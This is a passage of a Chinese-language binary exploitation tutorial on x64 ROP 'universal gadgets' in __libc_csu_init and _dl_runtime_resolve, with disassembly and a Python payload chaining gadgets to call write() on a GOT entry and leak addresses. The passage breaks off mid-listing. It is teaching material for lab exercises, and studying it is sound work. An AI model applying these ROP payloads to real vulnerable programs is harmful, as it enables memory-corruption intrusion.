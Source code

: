 ```bash
.text:000000000040089E                 pop     r13
.text:00000000004008A0                 pop     r14
.text:00000000004008A2                 pop     r15
.text:00000000004008A4                 retn
.text:00000000004008A4 __libc_csu_init endp   
```
因此若要调用write(1,got_write,8),则可这样构造：
```python
#rbx必须为0,因为call qword ptr [r12+rbx*8]
#rbp必须为1,0x40088D~0x400894有一个cmp,jnz
#r12 = addr_got,因为call qword ptr [r12+rb1x*8]
#r13 = rdx = arg3
#r14 = rsi = arg2
#r15 = edi = arg1
#retn的padding需要7*8=56byte

#padding
payload1 =  "\x00"*136 
#pop rbx地址_rbx=0_rbp=1_调用函数got_arg1_arg2_arg3
payload1 += p64(0x40089A) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) 
#mov rdx,r13地址(注意看原始汇编)
payload1 += p64(0x400880) 
#padding(7*8=56byte)
payload1 += "\x00"*56
#ret
payload1 += p64(main)
```

此外还有一个x64 gadgets，就是
* pop rdi
* ret

的gadgets。这个gadgets还是在这里，但是是由opcode错位产生的。
如上的例子中0x4008A2、0x4008A4两句的字节码如下:
* 0x41 0x5f 0xc3

意思是pop r15，ret，但是恰好pop rdi，ret的opcode如下:
* 0x5f 0xc3

因此如果我们指向0x4008A3就可以获得pop rdi，ret的opcode，从而对于单参数函数可以直接获得执行
与此类似的，还有0x4008A1处的 pop rsi，pop r15，ret
那么这个有什么用呢？我们知道x64传参顺序是rdi,rsi,rdx,rcx。
所以rsi是第二个参数，我们可以在rop中配合pop rdi,ret来使用pop rsi，pop r15,ret，这样就可以轻松的调用2个参数的函数。
综上，就是x64下利用通用gadgets调用一个参数、两个参数、三个参数函数的方法

## 通用gadgets part2

_dl_runtime_resolve()下**（在内存中的地址是随机的）**：
```bash
0x7ffff7def200 <_dl_runtime_resolve>:       sub     rsp,0x38
0x7ffff7def204 <_dl_runtime_resolve+4>:     mov     QWORD PTR [rsp],rax
0x7ffff7def208 <_dl_runtime_resolve+8>:     mov     QWORD PTR [rsp+0x8],rcx
0x7ffff7def20d <_dl_runtime_resolve+13>:    mov     QWORD PTR [rsp+0x10],rdx
0x7ffff7def212 <_dl_runtime_resolve+18>:    mov     QWORD PTR [rsp+0x18],rsi
0x7ffff7def217 <_dl_runtime_resolve+23>:    mov     QWORD PTR [rsp+0x20],rdi
0x7ffff7def21c <_dl_runtime_resolve+28>:    mov     QWORD PTR [rsp+0x28],r8
0x7ffff7def221 <_dl_runtime_resolve+33>:    mov     QWORD PTR [rsp+0x30],r9
0x7ffff7def226 <_dl_runtime_resolve+38>:    mov     rsi,QWORD PTR [rsp+0x40]
0x7ffff7def22b <_dl_runtime_resolve+43>:    mov     rdi,QWORD PTR [rsp+0x38]
0x7ffff7def230 <_dl_runtime_resolve+48>:    call    0x7ffff7de8680 <_dl_fixup>
0x7ffff7def235 <_dl_runtime_resolve+53>:    mov     r11,rax
0x7ffff7def238 <_dl_runtime_resolve+56>:    mov     r9,QWORD PTR [rsp+0x30]
0x7ffff7def23d <_dl_runtime_resolve+61>:    mov     r8,QWORD PTR [rsp+0x28]
0x7ffff7def242 <_dl_runtime_resolve+66>:    mov     rdi,QWORD PTR [rsp+0x20]
0x7ffff7def247 <_dl_runtime_resolve+71>:    mov     rsi,QWORD PTR [rsp+0x18]
```